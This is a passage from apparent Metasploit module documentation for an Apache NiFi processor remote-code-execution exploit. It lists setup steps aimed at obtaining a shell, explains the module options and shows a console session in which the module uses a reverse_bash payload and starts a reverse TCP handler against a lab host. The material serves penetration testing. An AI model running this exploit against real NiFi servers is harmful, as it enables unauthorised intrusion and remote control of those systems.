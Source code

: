 [NiFi, Authentication and Authorization](https://ijokarumawak.github.io/nifi/2016/11/15/nifi-auth/) (configuring LDAP authentication).

## Verification Steps
1. Install the application.
1. Start msfconsole.
1. Do: `use exploit/multi/http/apache_nifi_processor_rce`.
1. Do: `set rhosts <ip address of NiFi host> `.
1. Do: `set lhost <ip address of metasploit machine`.
1. If necessary, do: `set rport <port of NiFi API>`.
1. If necessary, do: `set ssl true`.
1. If necessary, do: `set username <NiFi username>`.
1. If necessary, do: `set password <NiFi password>`.
1. If necessary, do: `set target 1` (this sets the target to Windows instead of Unix).
1. Do: `run`.
1. You should get a shell.

## Options

### TARGETURI

The base NiFi API path. Default: `/nifi-api`.

### DELAY

The delay in seconds before stopping and deleting the processor. This is required because the processor may not start immediately after
being created. Default: `5`.

### USERNAME

Username to authenticate with, if necessary. Optional.

### PASSWORD

Password to authenticate with, if necessary. Optional.

### BEARER-TOKEN

JWT authenticate with, if necessary. Optional.

## Scenarios

The version of NiFi that was installed on both platforms was 1.12.1.

### Windows 10.0.18363 Pro (no authentication required)

```
$ msfconsole -q
msf5 exploit(multi/http/apache_nifi_processor_rce) > use multi/http/apache_nifi_processor_rce
[*] Using configured payload cmd/unix/reverse_bash
msf5 exploit(multi/http/apache_nifi_processor_rce) > set lhost 192.168.194.131
lhost => 192.168.194.131
msf5 exploit(multi/http/apache_nifi_processor_rce) > set target 1
target => 1
msf5 exploit(multi/http/apache_nifi_processor_rce) > set rhost 192.168.194.140
rhost => 192.168.194.140
msf5 exploit(multi/http/apache_nifi_processor_rce) > check
[*] 192.168.194.140:8080 - The target appears to be vulnerable.
msf5 exploit(multi/http/apache_nifi_processor_rce) > run -z
[*] Started reverse TCP handler on 192.168.194.131:4444 
[*] Waiting 5 seconds before stopping and deleting
```